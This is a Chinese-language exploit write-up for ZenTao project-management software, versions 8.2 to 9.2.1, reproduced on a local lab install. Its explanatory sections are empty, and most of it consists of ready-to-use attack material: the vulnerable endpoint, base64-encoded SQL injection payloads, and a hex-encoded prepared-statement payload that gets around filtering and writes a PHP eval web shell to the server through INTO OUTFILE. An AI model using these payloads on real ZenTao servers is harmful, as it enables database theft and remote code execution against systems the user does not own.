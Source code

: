 # 禅道 8.2-9.2.1 注入&getshell

> 原文：[http://book.iwonder.run/0day/禅道/1.html](http://book.iwonder.run/0day/禅道/1.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

我这里用的官方集成环境版本 8.4

```
获取版本号：/index.php?mode=getconfig 
```

![image](img/542b8cb8864fb30ffdba38b26e794781.png)

绝对路径

获取绝对路径：网址后面随便输入什么就会爆出绝对路径

![image](img/6156b905faab7fc6806ff6a129159527.png)

没路径的报错 exp：

```
{"orderBy":"order limit 1,1 PROCEDURE ANALYSE(polygon(id),1)#","num":"1,1","type":"openedbyme"} 
```

base64 加密：

```
eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMSwxIFBST0NFRFVSRSBBTkFMWVNFKHBvbHlnb24oaWQpLDEpIyIsIm51bSI6IjEsMSIsInR5cGUiOiJvcGVuZWRieW1lIn0= 
```

EXP

```
提交地址：http://127.0.0.1:81/zentao/index.php?m=block&f=main&mode=getblockdata&blockid=case&param=base64 
```

※exp 需要 base64 加密后才能提交，且回显、写 Shell 须加上 Referer：[http://127.0.0.1:81/zentao/](http://127.0.0.1:81/zentao/)

注入显密码：

```
{"orderBy":"order limit 1;#","num":"1,1","type":"openedbyme"} 
```

base64 加密：

```
eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMTsjIiwibnVtIjoiMSwxIiwidHlwZSI6Im9wZW5lZGJ5bWUifQ== 
```

不知道什么原因，本地复现无账号密码回显。。。

![image](img/ff7680d694e26dc1b2139456a49526a7.png)

前台 GetShell：

```
{"orderBy":"order limit 1;SET @SQL=0x73656C65637420273C3F70687020406576616C28245F504F53545B785D293F3E2720696E746F206F757466696C652027443A2F7A656E74616F2F78616D70702F7A656E74616F2F7777772F6861636B2E70687027;PREPARE pord FROM @SQL;EXECUTE pord;-- -","num":"1,1","type":"openedbyme"} 
```

其中有部分使用了 MySQL 的预处理查询绕过程序的过滤：

导出 shell：

```
select '<?php @eval($_POST[x])?>' into outfile 'D:/zentao/xampp/zentao/www/hack.php' 
```

HEX 编码：（注意加密解密都不带 0x，但是 EXP 中需要加上）

```
73656C65637420273C3F70687020406576616C28245F504F53545B785D293F3E2720696E746F206F757466696C652027443A2F7A656E74616F2F78616D70702F7A656E74616F2F7777772F6861636B2E70687027 
```

base64 加密：

```
eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMTtTRVQgQFNRTD0weDczNjU2QzY1NjM3NDIwMjczQzNGNzA2ODcwMjA0MDY1NzY2MTZDMjgyNDVGNTA0RjUzNTQ1Qjc4NUQyOTNGM0UyNzIwNjk2RTc0NkYyMDZGNzU3NDY2Njk2QzY1MjAyNzQ0M0EyRjdBNjU2RTc0NjE2RjJGNzg2MTZENzA3MDJGN0E2NTZFNzQ2MTZGMkY3Nzc3NzcyRjY4NjE2MzZCMkU3MDY4NzAyNztQUkVQQVJFIHBvcmQgRlJPTSBAU1FMO0VYRUNVVEUgcG9yZDstLSAtIiwibnVtIjoiMSwxIiwidHlwZSI6Im9wZW5lZGJ5bWUifQ== 
```

访问之即可在目录下生成 hack.php：

![image](img/53a5e36f7f0685deff13c6fd4c7705c2.png)

